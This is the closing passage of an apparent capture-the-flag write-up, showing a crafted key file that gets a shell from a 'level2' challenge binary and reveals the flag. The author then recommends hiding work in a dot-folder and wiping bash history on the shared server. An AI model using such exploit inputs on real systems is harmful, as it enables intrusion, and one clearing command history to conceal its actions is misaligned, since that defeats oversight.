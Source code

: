 ```bash
➜ /tmp echo “1:NOENCRYPT” > key6

➜ /tmp echo -n “winning” | base64 >> key6

➜ /tmp ./level2 ./key6
#

# cd /home/level2

# ls
level2 tokenfile

# cat tokenfile
RUX{not_the_actual_flag_but_you_still_win}

# exit
Congratulations. You’re authenticated

➜ /tmp
```

BOOM, we get a shell, change back to the challenge directory and we can read the tokenfile which contains the original flag (I'm afraid I don't remember the actual flag).
We didn’t explore the XOR function but evidentially we didn't need it to solve the challenge. Perhaps as the subject of a follow-up post.

As a final note, this challenge was hosted on a server accessible by all teams. That means that anyone watching the bash history can see what you're doing, making it a delicate operation to solve the challenge without revealing your methods. As a minimum, I'd recommend creating a hidden folder, working from there, then deleting the bash history.

```bash
➜ pwnable2 mkdir /.fd788743c5e54c528a6088c650cf8a9d

➜ pwnable2 cp level2 /.fd788743c5e54c528a6088c650cf8a9d

<pwn all the things>

➜ pwnable2 history -c

➜ pwnable2 cat /dev/null > ~/.bash_history
```

You know ... just to be sure.

Happy hunting.
